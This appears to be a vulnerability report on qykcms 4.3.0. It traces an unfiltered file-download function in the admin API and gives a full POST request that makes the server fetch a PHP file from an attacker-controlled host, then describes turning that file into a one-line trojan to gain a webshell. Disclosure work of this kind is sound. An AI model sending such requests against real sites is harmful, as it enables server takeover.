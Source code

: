 qykcms_4.3.0 Source code download address：

http://api.qingyunke.com/qykcms/down/qykcms_4.3.0.zip

Vulnerable file path:： \wwwroot\admin_system\include\function.php

A vulnerability exists in line 645-657 downfile(), which uses file_ get_ Contents() reads $url, and then uses file_ put_ The contents() function performs a write operation, only determining whether the file exists, without filtering the file content, file source, and file suffix

![image](https://user-images.githubusercontent.com/79570367/225640907-2ebbd786-2b6c-449c-8619-c19e99e96f44.png)

Global search downfile() function
qykcms_4.3.0\wwwroot\admin_system\include\lib\down.php
Line 4 calls the downfile () function directly without filtering

![image](https://user-images.githubusercontent.com/79570367/225641018-066d9a7c-9580-4de8-9173-46c91c8d2352.png)

Qykcms All background file operations are performed through  \wwwroot\admin_system\api.php. $tcz receives post data and generates an array

![image](https://user-images.githubusercontent.com/79570367/225641125-4116b2cb-6c60-4d09-8078-5b5549ced88d.png)

Use switch to judge log parameters

![image](https://user-images.githubusercontent.com/79570367/225641234-07fbc338-3770-43da-a7ec-c334a74b2ea0.png)

When the parameter log is down, include/lib/down.php is included and executed
The vulnerability point is in the system - upgrade system - automatic upgrade

![image](https://user-images.githubusercontent.com/79570367/225641291-54c48afa-9e63-4b6d-93b9-bd4c121581dc.png)

Packet:

POST /admin_system/api.php HTTP/1.1

Host: 192.168.57.1:81

Accept: */*

Accept-Encoding: gzip, deflate

Origin: file://

Accept-Language: zh-CN,en,*

Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3

User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/535.2 (KHTML, like Gecko) Safari/535.2 wke/1.0

Content-Type: application/x-www-form-urlencoded

Content-Length: 108

Connection: close


admin=admin&key=3ba2d1dbeb29f11cf2fb44b77c8d19c1&log=down&downurl=http://192.168.57.2/&filename=1.php

Create a phpinfo file 1.php on the remote host and start the http.server service：

![image](https://user-images.githubusercontent.com/79570367/225641405-19cfe315-cc31-4c38-8cb9-54c8d4813b3a.png)

Send a request packet. The downurl is the IP+port of the vps, and the filename is the file name

![image](https://user-images.githubusercontent.com/79570367/225641500-309e108b-2dbb-4aaf-aaf0-5b6d7d35a510.png)

Access the returned path

![image](https://user-images.githubusercontent.com/79570367/225641571-4e48c4ff-7ed3-4121-bbbf-0fc79336043a.png)

Modify it to a one-sentence Trojan horse, send the data package to the server to download, and successfully obtain the webshell

![image](https://user-images.githubusercontent.com/79570367/225641703-295d58aa-82a3-468d-8439-4966c3f9633f.png)
